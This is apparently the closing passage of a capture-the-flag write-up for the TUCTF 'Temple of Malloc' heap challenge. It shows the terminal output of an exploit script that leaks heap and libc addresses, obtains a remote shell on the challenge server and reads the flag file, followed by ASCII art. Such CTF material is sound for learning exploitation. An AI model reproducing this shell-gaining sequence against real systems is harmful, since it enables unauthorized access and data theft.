```python

p.interactive()
```

Output:

```
vagrant@kali:~/tu-ctf$ python exploit_temple.py 
[*] '/home/vagrant/tu-ctf/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to temple.tuctf.com on port 4343: Done

[+] Heap: 0x1e342e0
[+] Libc: 0x7fd697366000
[*] Switching to interactive mode
 
Child, what do you seek?
[1] Take wisdom
[2] Give wisdom
[3] Rethink wisdom
Your choice: $ sh
$ pwd
/home/admin/chal
$ ls
flag.txt
start.sh
temple
temple.txt
$ cat flag.txt
TUCTF{0n3_Byt3_0v3rwr1t3_Ac0lyt3}
$ cat temple.txt
               )\         O_._._._A_._._._O         /(
                \`--.___,'=================`.___,--'/            You see before you
                 \`--._.__                 __._,--'/
                   \  ,. l`~~~~~~~~~~~~~~~'l ,.  /
       __            \||(_)!_!_!_.-._!_!_!(_)||/            __
       \\`-.__        ||_|____!!_|;|_!!____|_||        __,-'//   The Temple of Malloc
        \\    `==---='-----------'='-----------`=---=='    //
        | `--.                                         ,--' |
         \  ,.`~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~',.  /    
           \||  ____,-------._,-------._,-------.____  ||/       Only the True will find divinity
            ||\|___!`======="!`======="!`======="!___|/||
            || |---||--------||-| | |-!!--------||---| ||
  __O_____O_ll_lO_____O_____O|| |'|'| ||O_____O_____Ol_ll_O_____O__
  o H o o H o o H o o H o o |-----------| o o H o o H o o H o o H o
 ___H_____H_____H_____H____O =========== O____H_____H_____H_____H___
                          /|=============|\
()______()______()______() '==== +-+ ====' ()______()______()______()
||{_}{_}||{_}{_}||{_}{_}/| ===== |_| ===== |\{_}{_}||{_}{_}||{_}{_}||
||      ||      ||     / |==== s(   )s ====| \     ||      ||      ||
======================()  =================  ()======================
----------------------/| ------------------- |\----------------------
                     / |---------------------| \
-'--'--'           ()  '---------------------'  ()
                   /| ------------------------- |\    --'--'--'
       --'--'     / |---------------------------| \    '--'
                ()  |___________________________|  ()           '--'-
  --'-          /| _______________________________  |\
 --' gpyy      / |__________________________________| \

```
